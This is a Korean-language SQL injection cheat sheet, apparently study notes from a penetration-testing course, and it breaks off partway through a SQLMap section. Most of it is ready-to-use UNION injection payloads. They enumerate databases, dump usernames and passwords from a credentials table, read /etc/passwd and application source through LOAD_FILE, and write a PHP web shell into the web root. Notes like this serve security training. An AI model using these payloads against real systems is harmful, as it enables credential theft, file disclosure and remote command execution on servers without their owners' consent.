 ```
```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -```<br/>
```cn' UNION select 1,database(),2,3-- -```

### TABLES
```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -```

### COLUMNS
```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -```

### Data
```cn' UNION select 1, username, password, 4 from dev.credentials-- -```

## 5. 파일 읽기

### DB User
```cn' UNION SELECT 1, user(), 3, 4-- -```<br/>
또는 ```cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -```

### 사용자 권한
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### LOAD_FILE
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

## 6. 파일 쓰기

### 파일 쓰기 권한 (secure_file_priv값 확인)
```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -```

### SELECT INTO OUTFILE
```
SELECT * from users INTO OUTFILE '/tmp/credentials';
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

### SQL Injection을 통한 파일 쓰기
```cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -```

### Writing a Web Shell
```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -```

<br/><br/>
# SQLMap

### SQLMap 설치
```sudo apt install sqlmap```<br/>
매뉴얼 설치 : ```git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev```

### SQLMap Start (--batch : 기본 옵션)
```sqlmap -u "http://www.example.com/vuln.php?id=1" --batch```

### Curl 명령 (HTTP 요청)
```sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'```

### POST 요청
```sqlmap 'http://www.example.com/' --data 'uid=1&name=test'```

### 전체 HTTP 요청 (캡쳐된 HTTP 요청 사용)
```